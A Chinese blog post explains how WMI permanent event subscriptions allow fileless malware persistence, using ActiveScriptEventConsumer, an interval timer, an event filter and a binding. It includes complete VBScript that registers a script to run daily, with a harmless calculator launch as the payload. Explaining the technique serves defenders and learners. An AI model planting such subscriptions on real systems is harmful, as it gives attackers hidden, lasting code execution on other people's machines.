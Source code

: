 ```yaml
---
title: 利用WMI实现无文件攻击
author: St
categories:
- WMI
- St
tags: 
- WMI
- 无文件攻击 
date: 2020-01-22 
excerpt: 一种利用WMI来存储并定时执行的无文件攻击技术。 
---
```


# 前言

​	无文件攻击无需落地到目标的磁盘，因此反病毒引擎一般很难检测。WMI以本地和远程方式提供了许多管理功能，包括查询系统信息、启动和停止进程以及设置条件触发器。病毒可以利用WMI来存储并定时执行恶意代码，来实现无文件攻击。

# WMI简介

​	WMI是从Windows 2000起，在每个Windows系统版本中都会内置的一个管理框架。WMI以本地和远程方式提供了许多管理功能，包括查询系统信息、启动和停止进程以及设置条件触发器。我们可以使用各种工具（比如Windows的WMI命令行工具wmic.exe）或者脚本编程语言（如PowerShell）提供的API接口来访问WMI。Windows系统的WMI数据存储在WMI公共信息模型（common information model，CMI）仓库中，该仓库由“System32wbemRepository”文件夹中的多个文件组成。

​	WMI类是WMI的主要结构。WMI类中可以包含方法（代码）以及属性（数据）。具有系统权限的用户可以自定义类或扩展许多默认类的功能。

​	在满足特定条件时，我们可以使用WMI永久事件订阅（permanent event subscriptions）机制来触发特定操作。攻击者经常利用这个功能，在系统启动时执行后门程序，完成本地持久化。WMI的事件订阅包含三个核心WMI类：Filter（过滤器）类、Consumer（消费者）类以及FilterToConsumerBinding类。WMI Consumer用来指定要执行的具体操作，包括执行命令、运行脚本、添加日志条目或者发送邮件。WMI Filter用来定义触发Consumer的具体条件，包括系统启动、特定程序执行、特定时间间隔以及其他条件。FilterToConsumerBinding用来将Consumer与Filter关联在一起。创建一个WMI永久事件订阅需要系统的管理员权限。

# 实现过程

​	下面利用WMI中的永久时间消费者ActiveScriptEventConsumer，来实现无文件攻击。WMI中有许多这类的时间消费者，简单来说，当与其绑定的时间达到时，消费者就会被触发执行预先定义好的功能。

​	ASEC是WMI中的一个标准永久事件消费者，他的作用是当与其绑定的一个事件达到时，可以执行预先设定好的JS/VBS脚本。先来看下其原型：

```c++
class ActiveScriptEventConsumer : __EventConsumer
{
  uint8  CreatorSID[] = {1,1,0,0,0,0,0,5,18,0,0,0};//表示安全标识符（SID）的数组，该标识符唯一地标识活动脚本事件使用者的创建者。只读
  uint32 KillTimeout = 0;//允许脚本运行的事件，如果为0，则脚本不会终止。
  string MachineName;//WMI向其发送事件的计算机的名称。按照Microsoft标准使用者的约定，脚本使用者不能远程运行。第三方消费者也可以使用此属性。
  uint32 MaximumQueueSize;//活动脚本事件使用者的最大队列
  string Name;//用户自定义的事件消费者名称
  string ScriptingEngine;//用于解释脚本的脚本引擎，这里用的是VBScript
  string ScriptFileName;//想要从一个文件中读取执行脚本时，使用这个。
  string ScriptText;//存放执行的脚本代码，与ScriptFileName不可同时使用。
}
```

​	下面是一个绑定时间和ASEC的实例。

```vbscript
'配置时间消费者 用于指定要执行的具体操作
nslink="winmgmts:\\.\root\subscription:"	'设置ASEC所在的名称空间
SET asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_
asec.name="test_consumer"	'自定义消费者名称
asec.scriptingengine="vbscript"	'用于解释脚本的脚本引擎
stxt="CreateObject(""Wscript.Shell"").Run ""calc"",3"	'脚本代码 这里会弹出一个计算器
asec.scripttext=stxt
SET asecpath=asec.put_
```

```vbscript
'配置计时器
SET itimer=getobject(nslink&"__IntervalTimerInstruction").spawninstance_
itimer.timerid="test_itimer"	'自定义计时器名称
runinterval = 86400000 
itimer.intervalbetweenevents=runinterval	'自定义脚本运行间隔 这里是一天运行一次。这里如果设置的时间过短 WMI会自动忽略
itimer.skipifpassed=false
itimer.put_
```

```vbscript
'配置事件过滤器 用于定义触发条件
SET evtflt=getobject(nslink&"__EventFilter").spawninstance_
evtflt.name="test_filter"	
evtflt.query="select * from __timerevent where timerid="""&"test_itimer"""	
evtflt.querylanguage="wql"	'使用WQL（WMI Query Language）语言查询事件是否触发
SET fltpath=evtflt.put_
```

```vbscript
'绑定消费者和过滤器
SET fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_
fcbnd.consumer=asecpath.path
fcbnd.filter=fltpath.path
fcbnd.put_
```

​	将上述代码保存到vbs文件中运行，然后通过wmi查看工具来查询是否设置成功，这里用的工具是SimpleWMIView。

![](/pic/zhangtaiming/利用WMI实现无文件攻击/tool.png)

# 总结

​	之前著名的POSHSPY后门就是利用这一技术来实现的，他利用WMI实现后门的存储和本地持久化，不熟悉WMI的人难以发现其踪影。

​	不过，该技术依然存在弊端，脚本运行时，由系统自带的srcons.exe作为脚本宿主，这就会增加一个系统进程，虽然是系统正常的进程，不会被杀毒软件查杀，但还是太显眼了。并且，脚本运行结束后，该进程不会自动结束，必须让脚本借助WMI提供的Win32_Process对象主动终止宿主进程。

